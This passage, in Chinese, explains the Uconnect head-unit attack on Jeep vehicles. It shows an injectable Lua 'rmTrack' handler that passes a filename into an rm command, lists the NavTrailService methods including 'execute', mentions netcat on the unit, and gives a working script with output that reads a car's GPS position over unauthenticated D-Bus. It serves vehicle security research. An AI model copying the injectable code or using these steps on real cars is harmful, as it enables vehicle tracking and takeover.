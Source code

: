 ```lua
function methods.rmTrack(params, context)
 return {
  result = os.execute("rm \"" .. trail_path_saved .. params.filename .. "\"")
 }
end
```

这里的“rmTrack”方法存在一个命令注入漏洞，允许攻击者通过指定一个文件名，来调用D-Bus方法运行任意的shell命令。类似的情况还在其他函数中可以看到，特别是处理用户交互的一些功能中。但是，命令注入其实没有必要，因为 “NavTrailService” 服务提供了一个 “execute” 方法用来执行任意shell命令，这是系统预留的一个功能而不是漏洞，下面是“NavTrailService” 服务中所有可用的方法：

```
"com.harman.service.NavTrailService":
{"name":"com.harman.service.NavTrailService",
"methods":{"symlinkattributes":"symlinkattributes","getProperties":"getPr
operties","execute":"execute","unlock":"unlock","navExport":"navExport","ls":"ls","attributes":"attributes","lock":"lock","mvTrack":"mvTrack","getTracksFolder":"getTracksFolder","chdir":"chdir","rmdir":"rmdir","getAllProperties":"getAllProperties","touch":"touch","rm":"rm","dir":"dir","writeFiles":"writeFiles","setmode":"setmode","mkUserTracksFolder":"mkUserTracksFolder","navGetImportable":"navGetImportable","navGetUniqueFilename":"navGetUniqueFilename","mkd
ir":"mkdir","ls_userTracks":"ls_userTracks","currentdir":"currentdir","rmTrack":"rmTrack","cp":"cp","setProperties":"setProperties","verifyJSON":"verifyJS
ON"}},
```

可以看出，在车机上以 root 身份执行命令是比较容易的，特别是车机上默认安装了很多常见的通信工具，例如 netcat。

#### 对 Uconnect 的攻击

Miller 等人发现了在Uconnect中很多 LUA 脚本可用于影响车辆内部和通信功能，例如调高音量或阻止某个控制功能起作用。这些脚本提供了一个命令集，一旦攻击者可以远程接入系统，那么相关车辆功能都有可能受其影响。

车机有查询和获取GPS位置的功能，相关数据也可以通过未授权的 D-Bus 通信从端口6667得到。例如相关脚本如下：

```lua
service = require("service")
gps = "com.harman.service.NDR"
gpsMethod = "JSON_GetProperties"
gpsParams = {
 inprop = {
 "SEN_GPSInfo"
 }
}
response = service.invoke(gps, gpsMethod, gpsParams)
print(response.outprop.SEN_GPSInfo.latitude, response.outprop.SEN_GPSInfo.longitude) 
```

执行该脚本得到GPS信息：
```sh
$ lua getGPS.lua
40910512 -73184840
```

在某些地图软件，例如 Google Map中输入这个数值 40.910512 -73.184840，可以发现目标车辆的位置为 Long Island。

车机还可以控制车辆供暖和空调，下面代码是设置风扇为任意速度的示例：

